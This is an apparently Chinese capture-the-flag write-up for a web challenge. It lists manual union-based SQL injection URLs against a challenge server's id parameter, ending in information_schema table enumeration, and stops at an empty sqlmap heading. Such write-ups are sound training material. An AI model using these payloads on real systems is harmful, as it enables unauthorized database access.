 # 第四题：WEB一

显示信息如下
| ID | Note        | Author |
|----|-------------|--------|
| 1  | Hello world | admin  |

应该是sql注入

尝试访问http://101.37.25.214:8002/index.php?id=2，显示：

| ID | Note                                      | Author |
|----|-------------------------------------------|--------|
| 2  | SQL injection is a critical vulnerability | admin  |

确定是sql注入

### 方法一：手动注入
http://101.37.25.214:8002/index.php?id=1
* http://101.37.25.214:8002/index.php?id=1' //查询结果不显示
* http://101.37.25.214:8002/index.php?id=1' -- -  //注释掉后面的'，查询结果正常显示
* http://101.37.25.214:8002/index.php?id=1' union all select 1,2,3-- - 
* http://101.37.25.214:8002/index.php?id=1' union all select 1,(select database()),3-- - 
* http://101.37.25.214:8002/index.php?id=1' union all select 1,(select table_name from information_schema.tables where table_schema =db limit 1,1),3-- -


### 方法二：sqlmap注入
